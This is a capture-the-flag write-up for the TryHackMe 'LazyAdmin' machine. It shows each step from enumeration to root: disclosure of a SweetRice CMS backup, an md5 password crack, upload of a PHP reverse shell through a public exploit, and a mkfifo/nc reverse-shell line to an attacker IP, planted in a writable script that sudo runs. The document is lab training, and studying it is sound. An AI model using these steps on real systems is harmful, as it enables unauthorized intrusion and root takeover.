 # [LazyAdmin - Easy linux machine to practice your skills](https://tryhackme.com/r/room/lazyadmin)

## Enumeration

### Nmap-scan
```
kali@kali:~/CTFs/lazyadmin$ nmap -sC -sV -Pn $TARGET_IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 08:46 EDT
Nmap scan report for <TARGET-IP>
Host is up (0.039s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.75 seconds
```
- open ssh port
- open http port, httpd seems to be using the default config

**Nmap enumeration scan**
```
kali@kali:~$ nmap --script=http-enum $TARGET_IP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 09:10 EDT
Nmap scan report for <TARGET-IP>
Host is up (0.040s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
| http-enum: 
|_  /content/: Potentially interesting folder

Nmap done: 1 IP address (1 host up) scanned in 5.84 seconds
```

### Gobuster
1. DNS-scan
```
kali@kali:~$ gobuster dns -d $TARGET_IP -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     <TARGET-IP>
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Progress: 4989 / 4990 (99.98%)
===============================================================
Finished
===============================================================
                                                                                                                                       
kali@kali:~$ 
```

2. DIR-scan
```
kali@kali:~$ gobuster dir -u $TARGET_IP -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt --no-error 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     <TARGET-IP>
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 316] [--> <TARGET-IP>/content/]
Progress: 87664 / 87665 (100.00%)
===============================================================
Finished
===============================================================
```

### Inspecting the HTTP-website
- default Apache2 Ubuntu landing page

#### Inspecting /content
- indicates 'SweetRice CMS' is used

![sweetrice](images/content_page.png)

## Exploiting SweetRice CMS
- [SweetRice 1.5.1 - Arbitrary File Upload](https://www.exploit-db.com/exploits/40716) -> allows us to upload a reverse-shell, valid login credentials required
- [SweetRice 1.5.1 - Backup Disclosure](https://www.exploit-db.com/exploits/40718) -> */content/inc* is accessable, provides backup data

### Reviewing the backup file

![backup_disclosure](images/mysql_backup.png)

```
kali@kali:~/CTFs/lazyadmin/mysql_backup$ curl <TARGET-IP>/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql -o mysql_backup.sql
```

![mysql_backup](images/sqlfile.png)

- looks like the username is "manager" and the password is given as md5-hash
- https://md5decrypt.net/en/ -> "Password123"

### File-Upload vulnerability

1. [prepare a reverse shell](https://gitlab.com/kalilinux/packages/webshells/-/blob/kali/master/php/php-reverse-shell.php?ref_type=heads)
2. get the exploit up and running (https://www.exploit-db.com/exploits/40716)
```
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |                                                    
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

Enter The Target URL(Example : localhost.com) : <TARGET-IP>/content
Enter Username : manager
Enter Password : Password123
Enter FileName (Example:.htaccess,shell.php5,index.html) : php-reverse-shell.php
[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://<TARGET-IP>/content/attachment/php-reverse-shell.php
```

- file does not appear in */content/attachment/*, the WebServer most likely filters *.php files
- uploading the script as *.phtml works

![upload](images/revshell.png)

3. Set up a listener and execute the uploaded script
```
kali@kali:~$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [<ATTACKER-IP>] from (UNKNOWN) [<TARGET-IP>] 37486
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux
 14:58:23 up  1:13,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ export TERM=xterm-256color
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@THM-Chal:/$   
```

## Catching the user-flag
```
cd /home/itguy && cat user.txt
XXX{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
www-data@THM-Chal:/home/itguy$ 
```

## Catching the Root-Flag
```
ww-data@THM-Chal:/home/itguy$ sudo -l 
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

```
- backup.pl can be executed as root via `sudo` 
```
www-data@THM-Chal:/home/itguy$ cat backup.pl
#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```
- if */etc/copy.sh* is writeable, it can be used to create another reverse-shell (as root)
```
www-data@THM-Chal:/home/itguy$ cd /etc && ls -lisa | grep copy.sh
1050508  4 -rw-r--rwx   1 root root      83 May 15 15:32 copy.sh
```
- it is writeable
```
www-data@THM-Chal:/etc$ cat copy.sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <ATTACKER-IP> 1337 >/tmp/f
www-data@THM-Chal:/etc$ 
```
-> setup a listener `nc -lvnp 1337` on the attacker-machine and `www-data@THM-Chal:/etc$ sudo /usr/bin/perl /home/itguy/backup.pl`

```
kali@kali:~$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [<ATTACKER-IP>] from (UNKNOWN) [<TARGET-IP>] 50204
root@THM-Chal:/etc# cat /root/root.txt
cat /root/root.txt
XXX{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
root@THM-Chal:/etc# 
```
